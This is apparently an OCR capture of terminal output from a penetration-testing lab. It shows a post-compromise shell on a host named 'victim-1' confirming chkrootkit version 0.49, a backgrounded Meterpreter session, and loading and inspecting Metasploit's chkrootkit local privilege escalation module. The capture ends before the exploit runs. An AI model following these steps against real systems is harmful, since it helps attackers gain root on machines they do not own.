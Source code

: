 ```
jackie@victim-1:~$ chkrootkit --help
chkrootkit --help
Usage: /bin/chkrootkit [options] [test ...]
Options:
        -h                show this help and exit
        -V                show version information and exit
        -l                show available tests and exit
        -d                debug
        -q                quiet mode
        -x                expert mode
        -r dir            use dir as the root directory
        -p dir1:dir2:dirN path for the external commands used by chkrootkit
        -n                skip NFS mounted dirs
jackie@victim-1:~$ chkrootkit -V
chkrootkit -V
chkrootkit version 0.49
jackie@victim-1:~$ ^C
Terminate channel 1? [y/N]  Y
meterpreter > 
Background session 2? [y/N]
```

```
msf5 auxiliary(scanner/ssh/ssh_login) > search chkrootkit

Matching Modules
================

   #  Name                           Disclosure Date  Rank    Check  Description
   -  ----                           ---------------  ----    -----  -----------
   0  exploit/unix/local/chkrootkit  2014-06-04       manual  Yes    Chkrootkit Local Privilege Escalation


msf5 auxiliary(scanner/ssh/ssh_login) > use exploit/unix/local/chkrootkit
msf5 exploit(unix/local/chkrootkit) > info

       Name: Chkrootkit Local Privilege Escalation
     Module: exploit/unix/local/chkrootkit
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Manual
  Disclosed: 2014-06-04

Provided by:
  Thomas Stangner
  Julien "jvoisin" Voisin

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  Yes

Basic options:
  Name        Current Setting       Required  Description
  ----        ---------------       --------  -----------
  CHKROOTKIT  /usr/sbin/chkrootkit  yes       Path to chkrootkit
  SESSION                           yes       The session to run this module on.

```